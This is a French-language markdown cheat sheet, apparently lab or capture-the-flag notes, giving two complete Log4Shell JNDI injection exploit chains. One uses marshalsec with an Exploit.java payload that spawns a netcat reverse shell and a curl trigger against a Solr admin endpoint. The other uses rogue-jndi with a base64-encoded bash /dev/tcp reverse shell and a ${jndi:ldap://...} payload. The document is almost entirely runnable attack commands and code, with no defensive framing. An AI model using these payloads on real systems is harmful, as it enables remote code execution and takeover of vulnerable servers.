 #Exploitation1

```sh
sudo apt install maven -y
git clone  https://github.com/mbechler/marshalsec
cd marshalsec
mvn clean package -DskipTests
```

1. Démarrer un serveur de référence LDAP 

```sh
./jdk1.8.0_181/bin/java -cp marshalsec/target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://ATTACKER.IP.ADDRESS:8000/#Exploit"
```

2. Créez et déplacez-vous vers un nouveau répertoire dans lequel vous pouvez héberger cette charge utile avec le  nom spécifique `Exploit.java`

```java
public class Exploit {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc -e /bin/bash YOUR.ATTACKER.IP.ADDRESS 9001");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

3. Compilez votre charge utile :

```sh
./jdk1.8.0_181/bin/javac Exploit.java
#./jdk1.8.0_181/bin/javac Exploit.java -source 8 -target 8
```

4. Une fois votre charge utile créée et compilée, vDémarrer un serveur HTTP secondaire

```sh
python3 -m http.server 8000
```

5. Dematrrer un ecouteur

```sh
nc -nlvp 9001
```

5. Déclencher l'exploit et lancer notre syntaxe JNDI 

```sh
curl 'http://10.10.54.189:8983/solr/admin/cores?foo=$\{jndi:ldap://ATTACKER.IP.ADDRESS:1389/Exploit\}'
```

---
#Exploitation2

```sh
git clone https://github.com/veracode-research/rogue-jndi 
cd rogue-jndi 
mvn package
```

1. Generer un payloads pour obtenir une RCE:

```sh
echo 'bash -c bash -i >&/dev/tcp/10.10.14.150/9001 0>&1' | base64
```

2. Demarrer un serveur LDAP malveillant pour les attaques par injection JNDI. 

```sh
java -jar rogue-jndi/target/RogueJndi-1.1.jar --command "bash -c {echo,BASE64_STRING_HERE}|
{base64,-d}|{bash,-i}" --hostname "{YOUR TUN0 IP ADDRESS}"
```

Prendre celui du serveur `tomcat`

3. Demarrer un ecouteur 

```sh
nc -nlvp 9001
```

4. Envoyer le payload du serveur tomcat dans le champ vulnerable

```
${jndi:ldap://{Your Tun0 IP}:1389/o=tomcat}
```